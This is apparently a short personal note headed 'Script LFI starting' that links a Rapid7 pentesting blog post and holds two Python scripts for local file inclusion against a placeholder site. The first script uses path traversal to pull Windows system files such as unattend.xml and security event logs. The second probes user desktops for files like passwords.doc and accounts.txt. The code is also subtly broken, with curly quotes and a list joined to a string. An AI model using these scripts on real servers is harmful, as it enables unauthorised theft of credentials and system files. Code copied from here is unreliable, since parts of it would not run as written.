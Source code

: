 Script LFI starting 
ON TODO LIST
[rapid7 blog](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)

```python
import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
pages = ['WINDOWS/system32/drivers/etc/hosts', 'WINDOWS/system32/win.ini', 'WINDOWS/system32/debug/NetSetup.log', 'WINDOWS/system32/config/AppEvent.Evt', 'WINDOWS/system32/config/SecEvent.Evt', 'WINDOWS/Panther/unattend.txt', 'WINDOWS/Panther/unattend.xml', 'WINDOWS/Panther/unattended.xml', 'WINDOWS/Panther/sysprep.inf']
 
for x in pages:
                  check = requests.get(url + LFI + x)
                  if check.status_code == 200:
                                    webbrowser.open(url + LFI + x)

import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
usernames = ['bob.jones', 'tom.johnson', 'mary.thomas', 'bill.smith']
 
desktopini = '/Desktop/desktop.ini'
 
usersfiles = ['accounts.txt', 'passwords.doc', 'configs.txt', 'sensitiveinfo.doc']
 
for x in usernames:
                  check = requests.get(url + LFI + x + desktopini)
                  if check.status_code == 200:
                                    print(‘User ’ + x + ‘was found’)
                                    desktopsearch = requests.get(url + LFI + '/Desktop/' + usersfiles)
                                    if desktopsearch.status_code == 200:
                                                      webbrowser.open(url + LFI + '/Desktop/' + usersfiles)
```


